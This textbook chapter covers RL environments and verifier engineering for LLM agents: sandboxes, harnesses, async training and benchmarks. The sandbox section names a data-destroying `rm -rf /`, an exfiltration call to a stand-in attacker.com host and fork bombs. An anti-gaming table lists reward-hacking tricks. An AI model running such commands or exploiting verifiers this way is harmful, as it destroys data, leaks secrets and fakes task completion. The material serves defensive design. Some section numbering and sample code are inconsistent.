




# 16.5 RL Environments and Verifier Engineering

> [Chapter 20 CAI and RLVR](../chapter21_cai_rlvr/intro) solved "how to train reasoning models without human annotation" — RLVR replaces the reward model with a rule-based verifier, and CAI replaces human labeling with AI feedback. But when tasks expand from "right or wrong on a math problem" to "write code, call tools, book a flight, fix a bug," **the reward signal itself becomes the bottleneck**. This chapter tackles an engineering problem: how to wrap real-world tasks into trainable RL environments, and how to design verifiers that resist gaming. This is the most closely watched engineering direction in RL training pipelines in the second half of 2025.

## 23.1 RL Environments as the New Bottleneck

Karpathy put it plainly in early 2025: "**RLVR is the new major stage of the LLM training pipeline**." Models can reason, can write code, can call tools — but once we need them to work long-horizon on real tasks (fix a GitHub issue, book a flight, run a data-cleaning job), the bottleneck stops being GPUs or algorithms. It becomes **the environment itself**.

Three landmark events in the second half of 2025 pushed this view into the mainstream:

- **Anthropic invested $1B** in [Mechanize](https://mechanize.dev/) — a startup focused on building agent RL environments, aiming to cover "every job that can be executed digitally"
- **Mechanize offered $500K salaries** to recruit RL environment engineers, higher than most model-training roles at the time
- **OpenAI, Google, Meta, ByteDance, and Alibaba** simultaneously stood up RL Environments teams, and engineering docs started repeating phrases like "Eval is the new bottleneck" and "Environments are the new data"

Why did the environment become the bottleneck? Go back to the PPO/GRPO objective ([Chapter 7 GRPO](../chapter18_grpo/grpo-family)):

$$\nabla_\theta J(\theta) = \mathbb{E}_{\tau \sim \pi_\theta}\left[\sum_t A(s_t, a_t) \cdot \nabla_\theta \log \pi_\theta(a_t \mid s_{<t}, a_{<t})\right]$$

This gradient requires **sampling trajectories from the current policy**, $\tau$. For a math problem, $\tau = (\text{prompt}, \text{answer})$ — short, deterministic, cheap to score. For an agent task, $\tau = (\text{prompt}, \text{action}_1, \text{obs}_1, \text{action}_2, \ldots, \text{action}_T, \text{final\_obs})$ — potentially thousands of steps, each one needing a real tool call (execute code, open a browser, hit an API), with the final reward decided by a verifier.



Every rollout is a real environment interaction, and **the wall-clock cost of a single trajectory** can jump from RLHF's 0.1 seconds to 10 minutes (to finish one SWE-bench task). This is the core constraint of RL environments engineering:

$$\text{throughput} = \frac{N_{\text{parallel\_sandboxes}}}{T_{\text{rollout}}}$$

You either increase the number of parallel sandboxes (expensive but simple), shorten the time per rollout (hard, with a hard floor), or decouple rollout from training (asynchronous RL, see 23.6). The whole of this chapter is engineering around these two numbers.

## 23.2 The Equivalence of Evals and RL Environments

Pash proposed a claim in 2025 that the industry has broadly accepted:

> **Evals = RL Environments**

Formally, an eval $E = (\mathcal{P}, \mathcal{V})$ has two parts:

- A task distribution $\mathcal{P}$: sample a task $p \sim \mathcal{P}$ from the prompt distribution
- A verifier $\mathcal{V}: (\text{trajectory}, \text{ground\_truth}) \to \{0, 1\}$: decides whether the trajectory solved the task

An RL environment $\mathcal{M} = (\mathcal{S}, \mathcal{A}, P, R, \gamma)$ can be read the same way:

- Initial state $s_0 \sim \mathcal{P}$ (same as the eval)
- Transition $P(s_{t+1} \mid s_t, a_t)$ given by real tools or sandboxes
- Terminal reward $r_T = \mathcal{V}(\tau)$ (the same verifier as the eval)

The only difference is **whether you use it once or repeatedly**: an eval is "run once, get a score"; an RL environment is "a training data source you sample from over and over." **This means a well-designed eval can be reused directly as an RL environment.** That's the theoretical basis for eval-driven RL training.

### The Reverse Claim: Evaluation Is Training

A more radical claim: **evaluation is training**. In GRPO/PPO training, every policy round has to sample the eval set G times (GRPO's group size) — the eval is no longer "test once after training finishes," it's "run every round during training." That has three consequences:

1. The eval set has to be large enough to avoid overfitting — while keeping verifier compute cost bounded
2. The eval set has to match the training distribution — otherwise the learned policy fails once it hits real deployment
3. The eval set has to resist contamination — if training data leaks into the eval, metrics inflate without any real gain

```python
# Treat the eval as an RL environment: run the eval set on every policy update
for step in range(n_steps):
    # 1. Sample a batch from the eval set
    prompts = sample(eval_set, batch_size=B)

    # 2. Sample G rollouts per prompt (GRPO)
    trajectories = []
    for p in prompts:
        for _ in range(G):
            tau = policy.rollout(p, env=sandbox)
            trajectories.append(tau)

    # 3. Verifier computes rewards
    rewards = [verifier(tau, ground_truth) for tau in trajectories]

    # 4. GRPO update (reward group normalization)
    policy.grpo_update(trajectories, rewards)
```

This "evaluation as training" loop is explicitly built into trainable environments like [τ-bench](https://github.com/sierra-research/tau-bench), [SWE-Gym](https://arxiv.org/abs/2412.21139), and [CyberGym](https://arxiv.org/abs/2506.02548).

::: tip Unifying Evals and RL Environments
Industry practice: **write the eval first, then let it become an RL environment.** If the eval's verifier is too slow, too subjective, or too easy to game, it simply can't serve as an RL environment. The converse also holds — an RL environment that trains stably is almost always a reliable eval too. Evaluate your verifier first: it sets the ceiling on your environment's quality.
:::

## 23.3 Verifier Design Principles

The verifier $\mathcal{V}$ is the soul of an RL environment. A bad verifier teaches the policy behavior that "maximizes reward but fails the task" — reward hacking. Verifier design comes down to four principles.

### Correctness

The verifier has to accurately judge whether the task was actually completed. Ideally $\mathcal{V}$ is a **deterministic** function — given the same trajectory, it always returns the same result. That keeps variance out of the reward signal. Correctness comes from two sources:

- **Formal correctness**: unit tests, type checking, mathematical proofs, theorem provers (Lean, Coq) — mechanically verifiable
- **Reference-answer matching**: compare against pre-labeled ground truth — simple, but costs labeling effort

Math problems typically use reference-answer matching: $\mathcal{V}(\text{answer}, y^*) = \mathbb{1}[\text{extract}(\text{answer}) == y^*]$. Code tasks use unit tests:

```python
def code_verifier(generated_code, test_cases):
    # 1. Execute the generated code in a sandbox (guard against malicious actions)
    results = sandbox.run(generated_code, inputs=test_cases.inputs)

    # 2. Check the output against each test case
    n_pass = sum(
        1 for out, expected in zip(results, test_cases.expected)
        if exact_match(out, expected)
    )

    # 3. Pass rate is the reward
    return n_pass / len(test_cases)
```

### Efficiency

The verifier gets called $B \times G$ times per training round ($B$ is batch size, $G$ is group size) — often millions of calls. If a single verification is slow (say, running 100 test cases takes 30 seconds), it drags down the whole training pipeline. Common optimizations:

- **Parallelization**: each sandbox is independent, so it can be scheduled with Ray/Kubernetes
- **Early termination**: return 0 the moment the first test fails, skip the rest
- **Binary rewards**: avoid continuous rewards (like a partial pass rate), which add variance — a binary $\{0, 1\}$ signal is more stable and plays better with GRPO

::: warning Partial vs. Binary Rewards
RLHF uses continuous rewards (the RM outputs a scalar), but RLVR almost always uses binary rewards. Why:

- Binary rewards carry none of an RM's training variance
- GRPO normalizes within the group; binary reward plus group normalization is equivalent to a pass/fail relative advantage
- Continuous rewards are easier to hack on long-horizon tasks — the policy finds loopholes in whatever the RM prefers

But binary rewards demand an **extremely reliable** verifier — a single misjudgment gets exploited over and over.
:::

### Anti-gaming

Policy optimization is a process of fighting the verifier — wherever the verifier leaves an opening, the policy finds it. Classic reward-hacking patterns:

| Task          | Hacking pattern                                            | Mitigation                          |
| ------------- | ---------------------------------------------------------- | ----------------------------------- |
| Unit tests    | Write an empty function so every `assert False` never runs | Enforce ≥90% coverage               |
| Math proofs   | Cite an unproven lemma                                     | Lean/Coq formal verification        |
| Web browsing  | Modify the DOM to fake "success"                           | Run in a real browser               |
| Data analysis | Hardcode the answer directly                               | Hold-out test set                   |
| Email replies | Reply "Yes" to everything                                  | Human or LLM-judge secondary review |

Formally, anti-gaming requires the verifier to satisfy:

$$\forall \tau_{\text{fake}}, \quad \mathcal{V}(\tau_{\text{fake}}, y^*) = 0$$

where $\tau_{\text{fake}}$ is any trajectory that looks complete on the surface without the task actually being finished. This is the constraint that **the verifier cannot be bypassed**.

### Formal vs. Heuristic

Verifier design has to trade off between two categories:

- **Formal verifiers**: unit tests, Lean proofs, SQL execution — 100% correct, but require the task to have formal semantics
- **Heuristic verifiers**: LLM-as-judge, rule matching, similarity scores — flexible, but risk misjudgment

Math and code tasks fit formal verification well; writing, dialogue, and many agent tasks have no choice but to rely on heuristics, or a hybrid of the two. **Formal is the preferred choice whenever it's available**, because RL amplifies a heuristic's imperfections into policy flaws.



## 23.4 Sandbox Engineering

For agent tasks, the core of the environment is the **sandbox** — an isolated execution environment where the policy reads and writes files, executes code, and calls tools. Sandbox engineering has to solve three problems.

### Isolation

Code the policy outputs can be malicious — `os.system("rm -rf /")`, `requests.get("attacker.com/exfil?token=...")`, fork bombs. The sandbox has to guarantee:

- **Filesystem isolation**: the container's rootfs is independent, with no access to the host
- **Process isolation**: namespaces plus cgroups, with CPU/memory quotas
- **Network isolation**: no network by default, domain allowlist only

Docker is the industry standard:

```dockerfile
# Sandbox base image: minimize the attack surface
FROM python:3.11-slim

# Run as an unprivileged user
RUN useradd -m agent
USER agent
WORKDIR /workspace

# Pre-install common libraries (avoid pip install on every rollout)
RUN pip install --no-cache-dir \
    numpy pandas scikit-learn requests \
    pytest

# CPU/memory limits are set at the host level via cgroups
```

Each rollout starts an independent container, destroyed as soon as it finishes:

```python
class Sandbox:
    def __init__(self, image="agent-sandbox:latest", cpu=2, mem="2G", timeout=60):
        self.client = docker.from_env()
        self.container = self.client.containers.create(
            image,
            cpu_count=cpu,
            mem_limit=mem,
            network_mode="none",  # no network by default
            detach=True,
            tty=True,
        )
        self.container.start()
        self.timeout = timeout

    def exec(self, command: str) -> str:
        """Execute a command inside the sandbox, return stdout/stderr"""
        try:
            result = self.container.exec_run(
                command, workdir="/workspace", timeout=self.timeout
            )
            return result.output.decode()
        except docker.errors.APIError as e:
            return f"[SANDBOX_ERROR] {e}"

    def write_file(self, path: str, content: str):
        """Write policy-generated code into the sandbox"""
        self.exec(f"mkdir -p $(dirname {path})")
        self.container.put_archive(
            "/workspace",
            io.BytesIO(self._tar_bytes(path, content))
        )

    def cleanup(self):
        self.container.remove(force=True)
```

### Network Allowlisting

Many tasks need network access — calling public APIs, downloading packages. An allowlist approach:

```python
# Restrict outbound connections at the container level with iptables
ALLOWED_DOMAINS = {
    "pypi.org", "files.pythonhosted.org",  # pip installs
    "api.github.com", "raw.githubusercontent.com",  # reading open-source code
}

def setup_network_whitelist(container):
    for domain in ALLOWED_DOMAINS:
        ip = socket.gethostbyname(domain)
        container.exec_run(
            f"iptables -A OUTPUT -d {ip} -j ACCEPT"
        )
    container.exec_run("iptables -A OUTPUT -j DROP")
```

More modern setups replace Docker with [Firecracker microVM](https://firecracker-microvm.github.io/) or [gVisor](https://gvisor.dev/) — they start faster (under 125ms) and isolate more strongly (KVM-level virtualization).

### Parallel Multi-Agent Sandboxes

RL training needs thousands of parallel rollouts. Each sandbox uses about 500MB of memory, so 1000 concurrent sandboxes means 500GB. Engineering optimizations:

```python
# Schedule a sandbox pool with Ray
import ray

@ray.remote(num_cpus=2, memory=2e9)
class SandboxActor:
    def __init__(self):
        self.sandbox = Sandbox()

    def rollout(self, prompt: str, policy) -> dict:
        trajectory = []
        obs = prompt
        for t in range(MAX_STEPS):
            action = policy.act(obs)
            if action.type == "exec":
                obs = self.sandbox.exec(action.code)
            elif action.type == "done":
                break
            trajectory.append((obs, action))
        return {"trajectory": trajectory, "sandbox_id": id(self.sandbox)}

# Launch N actors and sample concurrently
sandboxes = [SandboxActor.remote() for _ in range(N)]
futures = [sb.rollout.remote(p, policy) for sb, p in zip(sandboxes, prompts)]
results = ray.get(futures)
```

::: details Pool Reuse vs. Fresh Containers
**Fresh containers**: fully isolated, but each container adds about 1 second of startup overhead — negligible for a long rollout.

**Pool reuse**: start once, reuse across rounds — faster, but with a risk of state leakage (temp files from a previous rollout affecting the next one). Requires a strict reset (`rm -rf /workspace/*` plus a shell restart).

Rule of thumb from practice: use fresh containers when a single rollout runs under 30 seconds; use a reused pool for long-horizon tasks over 5 minutes.
:::

## 23.5 Long-Horizon Task Harnesses

[Anthropic's Nov. 2025 "Effective Harnesses" post](https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents) summarizes how to keep an agent working reliably through 100+ step long-horizon tasks. The core conclusion: **the quality of the harness — the task scaffolding — sets the ceiling on agent performance**.

### The Progress File Pattern and `claude-progress.txt`

The biggest failure mode in long-horizon tasks is **forgetting** — by step 50, the agent has lost track of what it set out to do at step 1. The fix: have the agent write its progress to a fixed file:

```
# claude-progress.txt
## Goal
Fix the memory leak in worker.py reported in issue #1234

## Done
- [x] Reproduced leak with stress test (test_leak.py)
- [x] Identified root cause: unbounded cache in WorkerPool._results
- [x] Added eviction policy (max_size=1000)

## In Progress
- [ ] Running pytest on full test suite

## Next Steps
- Update CHANGELOG.md
- Open PR
```

Every N steps, have the agent rewrite the progress file, and feed the whole file back into context for the next decision. This moves "working memory" out of the model's internal context window and into an external file, so the task history can grow arbitrarily long.

### The Feature List Pattern and `feature_list.json`

For software-development-style tasks, have the agent explicitly maintain a feature list:

```json
{
  "features": [
    { "name": "auth.login", "status": "done", "tests": ["test_login.py"] },
    {
      "name": "auth.logout",
      "status": "in_progress",
      "tests": ["test_logout.py"]
    },
    { "name": "api.users", "status": "todo", "tests": [] }
  ]
}
```

At each decision point, the agent checks the feature list first, then decides which feature to advance. This is **explicit task decomposition** — it keeps the agent from getting stuck on one detail and losing sight of the whole task.

### The Test Ratchet Pattern

A ratchet moves forward only, never backward. While the agent edits code, require that **tests that already pass must keep passing**:

```python
class TestRatchet:
    def __init__(self, test_suite):
        self.test_suite = test_suite
        self.passed_tests = set()

    def check(self, agent_code):
        results = run_tests(agent_code, self.test_suite)

        # Ratchet: reject if a previously-passing test fails again
        regressions = self.passed_tests - set(results.passed)
        if regressions:
            return {
                "accept": False,
                "reason": f"Regression in: {regressions}",
                "reward": 0,
            }

        # Add newly passing tests to the ratchet
        self.passed_tests |= set(results.passed)

        return {
            "accept": True,
            "newly_passed": set(results.passed) - self.passed_tests,
            "reward": len(results.passed) / len(self.test_suite),
        }
```

The test ratchet forces the agent to **never break existing functionality** — it's widely used in code tasks like SWE-bench and Terminal-Bench.

### Karpathy's "5-6 Agents" Pattern

A practical pattern Karpathy proposed in 2025: for long-horizon tasks, **launch 5-6 agent instances in parallel to attack the same task**, and take whichever one finishes first as the answer.

Formally: run N agent instances $\pi_\theta^{(1)}, \ldots, \pi_\theta^{(N)}$ independently, then keep whichever one the verifier scores highest:

$$\tau^* = \arg\max_{\tau^{(i)}, i=1..N} \mathcal{V}(\tau^{(i)})$$

This is **best-of-N sampling** extended to agent tasks. When the verifier is reliable and the compute budget allows for it, running 5-6 agents in parallel lifts the success rate 2-3x over running one agent serially. It's the standard trick behind SWE-bench leaderboard results for Sonnet 3.5, Claude 4, and GPT-5.



## 23.6 Synchronous vs. Asynchronous RL Training

The RL training main loop comes in two flavors: **synchronous** and **asynchronous**. The difference is in how rollouts and gradient steps relate to each other in time.

### Synchronous Mode

Mainstream frameworks — veRL, TRL, OpenRLHF — default to synchronous: every gradient step **waits for every rollout in the batch to finish** before doing a single parameter update.

```python
# Synchronous main loop
for step in range(n_steps):
    # 1. Wait for all B rollouts in the batch to complete
    trajectories = []
    for prompt in prompts:
        tau = rollout(policy, prompt, env=sandbox)  # blocking
        trajectories.append(tau)

    # 2. Compute advantages
    advantages = compute_advantages(trajectories)

    # 3. One or more gradient steps
    policy.ppo_update(trajectories, advantages)
```

**Advantages**: strictly on-policy, simple to implement, matches the PPO/GRPO derivation exactly.

**Disadvantages**: **rollout time variance gets amplified**. If 95% of rollouts take 10 seconds and 5% take 10 minutes (an agent stuck in a loop), every step waits on that 5% — GPU utilization drops below 50%.

### Asynchronous Mode

Asynchronous frameworks like [AReaL (arXiv:2505.24298)](https://arxiv.org/abs/2505.24298), [AgentRL (arXiv:2510.04206)](https://arxiv.org/abs/2510.04206), [slime](https://github.com/THUDM/slime), [ROLL](https://github.com/alibaba/ROLL), and LlamaRL take a different approach: **decouple rollout from training**. Rollout actors keep sampling continuously, and the trainer updates the policy using whatever data is available right now.

```python
# Asynchronous main loop (pseudocode)
rollout_queue = Queue()
trainer_queue = Queue()

# Rollout worker pool: keeps sampling continuously
def rollout_worker(policy_ref):
    while True:
        prompt = prompt_stream.next()
        tau = rollout(policy_ref, prompt, env=sandbox)
        rollout_queue.put((prompt, tau))

# Trainer process: updates whenever data is available
def trainer(policy):
    while True:
        batch = collect_batch(rollout_queue, min_size=B)
        advantages = compute_advantages(batch)
        policy.ppo_update(batch, advantages)
        broadcast_new_policy(policy)  # push to rollout workers
```

The key technical challenge in asynchronous mode is **staleness** — a rollout worker may be running against a policy that is N steps out of date, so the data it collects is off-policy relative to the current policy. Two ways to handle it:

1. **Importance sampling correction**: add an IS ratio $\rho = \pi_\theta(a|s) / \pi_{\theta_{\text{old}}}(a|s)$ to the PPO/GRPO objective, and down-weight (clip) samples where $\rho$ strays far from 1
2. **Staleness cap**: discard samples more than $N > N_{\max}$ steps old (typically $N_{\max} = 4$)

### Speedup in Practice

The AReaL paper reports the following results training Llama-3-8B on agentic tasks:

| Mode                 | GPU utilization | Wall-clock / step | Speedup   |
| -------------------- | --------------- | ----------------- | --------- |
| Synchronous (veRL)   | 45%             | 320s              | 1.0×      |
| Asynchronous (AReaL) | 92%             | 115s              | **2.77×** |

The speedup mainly comes from:

- **GPUs never sit idle**: the trainer keeps working instead of waiting on rollouts
- **Rollouts don't block each other**: a slow task doesn't hold up fast ones
- **Pipeline overlap**: rollout, inference, and training run as three overlapping stages

::: warning Async Isn't a Free Lunch
Asynchrony introduces **off-policy bias**. If staleness $N$ grows too large, IS clipping discards a large fraction of the samples — effective batch size shrinks — and training efficiency actually drops. Rules of thumb from practice:

- Short rollouts (under 30 seconds): synchronous is more stable
- Long rollouts (over 5 minutes), agentic tasks: async gives a real win
- Very long tasks (over 1 hour): async is the only workable option
  :::

More engineering detail is in [Appendix B.1: RL Training Systems](../appendix_industrial_training/rl-infrastructure).

## 23.7 Evaluation Benchmarks

Ultimately, RL environment quality has to be checked against recognized benchmarks. As of 2025, mainstream agent RL benchmarks fall into a few categories.

### Code and Software Engineering

| Benchmark                                              | Task                                       | Verifier                                                    | Notes                                |
| ------------------------------------------------------ | ------------------------------------------ | ----------------------------------------------------------- | ------------------------------------ |
| **[SWE-bench](https://arxiv.org/abs/2310.06770)**      | Fix a real GitHub issue                    | Unit tests (pre-existing passing tests plus post-fix tests) | The industry standard for SWE agents |
| **[SWE-Gym](https://arxiv.org/abs/2412.21139)**        | The training-set version of SWE-bench      | Same as above                                               | Built specifically for RL training   |
| **[Terminal-Bench](https://arxiv.org/abs/2601.11868)** | Terminal tasks (git, ssh, file operations) | State checking                                              | Real shell environment               |
| **[LiveCodeBench](https://arxiv.org/abs/2403.07974)**  | Algorithm problems (updated monthly)       | Unit tests                                                  | Designed to resist contamination     |
| **[CyberGym](https://arxiv.org/abs/2506.02548)**       | CTF security tasks                         | Flag matching                                               | Formal                               |

### Tool Calling and Function Calling

| Benchmark                                                                                            | Task                                                 | Verifier                             |
| ---------------------------------------------------------------------------------------------------- | ---------------------------------------------------- | ------------------------------------ |
| **[BFCL](https://proceedings.mlr.press/v267/patil25a.html)** (Berkeley Function Calling Leaderboard) | Call the correct function with the correct arguments | Exact match plus type checking       |
| **[τ-bench](https://arxiv.org/abs/2406.12045)** (Salesforce)                                         | Simulated customer-service agent (airline, retail)   | Task completion plus rule compliance |
| **[ToolBench](https://arxiv.org/abs/2307.16789)**                                                    | Calling 16,000+ real APIs                            | End-to-end task completion           |

### Web and Browser

| Benchmark                                              | Task                                    | Verifier           |
| ------------------------------------------------------ | --------------------------------------- | ------------------ |
| **[WebArena](https://arxiv.org/abs/2307.13854)**       | Web interaction (shopping, forums, CMS) | End-to-end state   |
| **[VisualWebArena](https://arxiv.org/abs/2401.13649)** | Multimodal version of WebArena          | Same as above      |
| **[BrowseComp](https://openai.com/index/browsecomp/)** | Hard web search                         | Exact answer match |

### Long-Horizon and Multi-Turn

| Benchmark                                                       | Task                                       | Verifier          |
| --------------------------------------------------------------- | ------------------------------------------ | ----------------- |
| **[Vending-Bench](https://arxiv.org/abs/2502.15840)** (V-BENCH) | Long-term vending-machine operation        | Cumulative profit |
| **[GAIA](https://arxiv.org/abs/2311.12983)**                    | General-purpose assistant multi-step tasks | Answer matching   |
| **[Mind2Web](https://arxiv.org/abs/2306.06070)**                | Real web tasks                             | DOM state         |

### Principles for Choosing a Benchmark



::: tip Combining Benchmarks
No single benchmark covers every capability. Industrial training typically uses a **combination of 3-5 benchmarks**: code (SWE-bench) plus tools (τ-bench) plus web (WebArena) plus long-horizon (Vending-Bench). That validates policy capability along independent dimensions and avoids overfitting to any one benchmark.
:::

## 23.8 Engineering the Train-Eval Loop

Stringing the pieces above together, a full, production-grade train-eval loop involves four sub-problems.

### Eval-Driven RL Training

Instead of "train, then eval afterward," this is "eval continuously during training." It requires the eval set to be completely separate from the training set, and the eval to run automatically at every checkpoint:

```python
class EvalDrivenRLTrainer:
    def __init__(self, policy, train_env, eval_envs):
        self.policy = policy
        self.train_env = train_env
        self.eval_envs = eval_envs  # dict: name -> env

    def train_step(self):
        # Training step
        trajectories = self.train_env.rollout_batch(self.policy)
        self.policy.update(trajectories)

    def eval_checkpoint(self, checkpoint_path):
        results = {}
        for name, env in self.eval_envs.items():
            scores = [env.eval(self.policy) for _ in range(N_EVAL_ROLLOUTS)]
            results[name] = {
                "mean": np.mean(scores),
                "std": np.std(scores),
                "pass_at_1": np.mean([s >= 1.0 for s in scores]),
            }
        return results

    def train(self, n_steps, eval_every=100):
        for step in range(n_steps):
            self.train_step()
            if step % eval_every == 0:
                ckpt = self.save_checkpoint(step)
                eval_results = self.eval_checkpoint(ckpt)
                self.log(step, eval_results)
                # Early stop if converged on every eval
                if self.converged(eval_results):
                    break
```

### Incremental Eval

A full eval set can hold 1000+ tasks — running all of it every round is too expensive. An incremental evaluation strategy:

- **Tiered eval sets**: fast (100 problems, run every 10 steps), medium (500 problems, every 100 steps), full (everything, every checkpoint)
- **Active sampling**: prioritize evaluating problems the policy is least certain about (for instance, where the RM output sits near 0.5)

$$\text{sample\_priority}(p) = \mathcal{H}(\mathcal{V}(\pi(\cdot | p))) = -\sum_y P(y|p) \log P(y|p)$$

High-entropy prompts, where the policy is uncertain, get evaluated first; low-entropy prompts, where the policy is already reliably passing or reliably failing, get evaluated less often.

### Contamination Detection

If training data leaks into the eval set, metrics inflate without the deployed model actually getting any better. Detection methods:

1. **n-gram overlap**: overlap rate of 8-grams between eval prompts and the training corpus
2. **Embedding similarity**: use sentence embeddings to find the nearest training example
3. **Held-out rotation**: periodically swap new problems in for old ones and check whether metrics drop sharply — a sharp drop means the model was overfitting before

```python
def detect_contamination(eval_prompt, train_corpus, n=8):
    eval_ngrams = set(extract_ngrams(eval_prompt, n))
    train_ngrams = build_ngram_index(train_corpus, n)
    overlap = len(eval_ngrams & train_ngrams) / len(eval_ngrams)
    return overlap > 0.3  # treat over 30% overlap as suspicious contamination
```

### Checkpoint Selection and Regression Testing

Training produces hundreds of checkpoints — which one ships? Use the eval-based Pareto frontier:

```python
def select_checkpoint(eval_history):
    # eval_history: [{ckpt, swe_bench, tau_bench, webarena}, ...]
    pareto_front = []
    for ckpt in eval_history:
        dominated = any(
            other.swe >= ckpt.swe and
            other.tau >= ckpt.tau and
            other.web >= ckpt.webarena and
            other is not ckpt
            for other in eval_history
        )
        if not dominated:
            pareto_front.append(ckpt)
    return pareto_front
```

This also requires **regression testing**: a new checkpoint must not regress on production metrics relative to the previous version — the same idea as the test ratchet in 23.5, just applied to the eval set instead of unit tests.

### Relationship to Alignment Failures

Poor RL environment quality feeds directly into a family of alignment failures — the policy learns verifier loopholes, overfits the eval set, becomes sensitive to noise. These get a detailed treatment in [Chapter 33: Alignment Failures](../chapter30_alignment_failures/intro); this chapter's angle is prevention through engineering: **get the environment right before you worry about policy alignment**.

## Chapter Summary

1. **RL Environments are the new bottleneck** — models can reason and call tools, but training long-horizon agent tasks is limited by environment throughput. Investment from Anthropic, Mechanize, and others signals this is the core engineering direction for 2025-2026
2. **Evals = RL Environments** — a good eval verifier is a good RL environment. Eval-driven training unifies training and evaluation
3. **Four verifier principles** — correctness, efficiency, anti-gaming, and preferring formal verification. A bad verifier teaches the policy to hack
4. **Sandbox engineering** — Docker/Firecracker isolation, network allowlisting, and Ray-based parallel scheduling form the infrastructure of agent RL
5. **Long-horizon harnesses** — the progress file, feature list, test ratchet, and 5-6-agents patterns set the ceiling on agent success at 100+ step tasks
